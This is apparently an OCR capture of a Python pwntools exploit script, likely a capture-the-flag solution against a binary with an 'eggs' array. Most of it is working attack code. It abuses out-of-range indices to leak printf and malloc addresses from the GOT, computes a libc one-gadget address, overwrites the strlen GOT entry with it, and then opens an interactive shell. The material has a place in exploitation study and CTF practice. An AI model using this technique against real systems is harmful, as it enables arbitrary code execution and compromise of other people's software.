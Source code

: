 {\begin{verbatim}
diff = (address_of_strlen_got - exe.sym.eggs) // 8
printf_plt = 0x4010a6

log.info(f'printf_plt: {hex(printf_plt)}\n')
log.info(f'printf at plt + 6: {hex(exe.plt.printf+6)}\n')

log.info(f'use egg {diff}')
io.sendline(b'4\n%d'%diff)
io.sendline(p64(printf_plt))
print(io.recvline())

# leak the address of printf
log.info(f'address of eggs: {hex(exe.sym.eggs)}')
diff = (address_of_printf_got - exe.sym.eggs) // 8 
io.recvuntil(b'> ')
log.info('reading the address from printf@plt')
io.sendline(b'3\n%d'%diff)
addr = io.recvn(6) + b'\x00\x00'
log.info(f"received address {hex(u64(addr))}")
addr_printf = u64(addr)

# now leak address of malloc
diff = (address_of_malloc_got - exe.sym.eggs) // 8 
log.info(f'malloc at : {hex(exe.plt.malloc)}\n')
io.recvuntil(b'> ')
log.info('reading the address from malloc@plt')
io.sendline(b'3\n%d'%diff)
addr = io.recvn(6) + b'\x00\x00'
log.info(f"received address {hex(u64(addr))}")
addr_malloc = u64(addr)
log.info(f'diff prinf - malloc from run: {addr_printf-addr_malloc}')

# now re-direct strlen to a gadget
diff = (address_of_strlen_got - exe.sym.eggs) // 8
addr_gadget = addr_printf - libc.sym.printf + gadgets[2]
print(f'gadget in libc: {hex(addr_gadget)}')
io.recvuntil(b'> ')
io.sendline(b'4\n%d'%diff)
io.sendline(p64(addr_gadget))

io.interactive()
\end{verbatim}
}
